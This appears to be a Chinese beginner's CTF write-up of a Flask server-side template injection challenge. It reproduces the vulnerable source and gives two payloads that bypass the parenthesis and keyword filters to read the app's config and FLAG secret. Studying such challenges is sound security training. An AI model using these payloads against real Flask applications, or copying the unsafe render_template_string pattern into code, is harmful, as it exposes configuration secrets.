

本文为记录个人信安小白的刷题路程，大佬勿喷，也同时希望文章能对您有所帮助
打开靶机，直接看到源码，但是右键查看源码会更好一点，
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 import flask import os app = flask.Flask(__name__) app.config['FLAG' ] = os.environ.pop('FLAG' ) @app.route('/' def index (): return open (__file__).read() @app.route('/shrine/<path:shrine>' def shrine (shrine ): def safe_jinja (s ): s = s.replace('(' , '' ).replace(')' , '' ) blacklist = ['config' , 'self' ] return '' .join(['{{% set {}=None%}}' .format (c) for c in blacklist]) + s return flask.render_template_string(safe_jinja(shrine)) if __name__ == '__main__' : app.run(debug=True )
1.只过滤了括号()，但还可以用其他方式：{{request.application}}（用点号.）{{request['application']}}（用中括号[]）config和self，但可以通过其他对象访问：url_for、request、get_flashed_messages等内置对象
1 2 3 4 /shrine/{{url_for.__globals__.current_app.config}} /shrine/{{get_flashed_messages.__globals__.current_app.config.FLAG}}
